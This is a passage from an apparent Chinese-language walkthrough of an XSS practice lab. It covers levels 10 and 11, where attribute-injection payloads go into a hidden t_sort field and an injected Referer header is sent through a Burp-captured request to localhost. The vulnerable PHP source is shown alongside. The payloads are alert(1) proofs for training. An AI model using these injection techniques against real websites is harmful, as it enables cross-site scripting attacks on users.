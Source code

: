 
分析代码，发现需要两个参数，一个是keyword，一个是t_sort，尖括号<>都被转换成空，还有三个hidden的隐藏输入框，

或许我们可以从隐藏的输入框下手

构造payload为：

```
keyword = test&t_sort="type="text" onclick = "alert(1)
```

```
keyword = test&t_sort="type="text" onmouseover="alert(1)
```

```
keyword = test&t_sort="type="text" onmouseover=alert`1`
```



## Level 11：

查看后台代码

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];     //获取HTTP的REFERER头部信息
$str22=str_replace(">","",$str11);   //将所获取到的referer中的>替换为空
$str33=str_replace("<","",$str22);    //将变量$str22中的<替换成空
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden"> //在这里进行注入
</form>
</center>';
?>
```

查看代码，发现可以对referer头部注入

我们burp抓包，添加Referer头部，插入payload

```
GET /xss/level11.php?keyword=good%20job! HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: "onclick=alert(1) type="text"  //所添加的Referer头部
```
